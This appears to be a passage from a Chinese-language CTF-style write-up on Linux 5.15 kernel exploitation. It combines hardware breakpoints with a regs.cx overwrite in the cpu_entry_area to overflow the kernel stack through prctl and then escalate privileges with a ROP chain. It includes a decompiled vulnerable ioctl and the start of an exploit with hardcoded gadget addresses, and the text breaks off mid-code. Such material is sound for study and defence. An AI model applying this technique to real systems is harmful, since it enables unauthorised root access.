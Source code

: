 ```c
    		// 调用copy_from_user，结合任意地址写原语和硬件断点，做到栈溢出ROP攻击
/* 1973 */ 	if (copy_from_user(&prctl_map, addr, sizeof(prctl_map)))
/* 1974 */ 		return -EFAULT;
/* 1975 */ 
    		// 对prctl_map对象内容进行校验，失败后快速返回触发ROP，不多调用函数
/* 1976 */ 	error = validate_prctl_map_addr(&prctl_map);
/* 1977 */ 	if (error)
/* 1978 */ 		return error;

```

注意上面的`1973`行，此处有一个从用户态拷贝数据到内核态的操作。若用户态的地址被下了硬件断点，结合对`regs.cx`的攻击，我们则可以将过多数据拷贝到内核栈上，从而实现栈溢出。

### demo：无限任意地址写

逻辑很简单，如下：

```c
__int64 __fastcall vuln_ioctl(file *file, __int64 cmd, unsigned __int64 arg)
{
  __int64 v3; // rbp
  __int64 v4; // rdx
  $F899C8464B3899E1D26BF22F2E77C72F u; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+10h] [rbp-10h]
  __int64 v8; // [rsp+18h] [rbp-8h]

  _fentry__(file, cmd, arg);
  v8 = v3;
  v7 = __readgsqword(0x28u);
  if ( copy_from_user(&u, v4, 16LL) )
    return -1LL;
  *(_QWORD *)u.addr = u.val;
  return 0LL;
}
```

现在我们默认其版本为`linux 5.15`，其他保护全开。

则可以采取如下流程：

- 开启两个子进程，一个为`victim`，将其绑定到`cpu 0`；一个为`trigger`，将其绑定到`cpu 1`。
- 对于`trigger`进程，无限调用题目功能对`regs.cx`进行修改，地址为`0xfffffe0000010fb0`

- 对于`victim`进程，对其要用到的某个地址下硬件断点。随后，使用`uname`系统调用，获得内核基地址和`canary`
- 获取到内核基地址和`canary`后，使用`prctl`系统调用来栈溢出，`rop`进行提权。

一个`exp`如下：

```c
#include "ltfallkernel.h"

#define CPU_ENTRY_AREA_DB_STACK_RCX_ADDR 0xfffffe0000010fb0

size_t pop_rdi = 0xffffffff810af002;
size_t commit_creds = 0xffffffff810f8240;
size_t init_cred = 0xffffffff82e8a820;
size_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff820010b0;
size_t prctl_set_mm_map = 0xffffffff810e0cd0;

int dev_fd;
size_t *buffer;
int leak_pipe[2];
int rop_pipe[2];
size_t canary;

typedef struct
{
```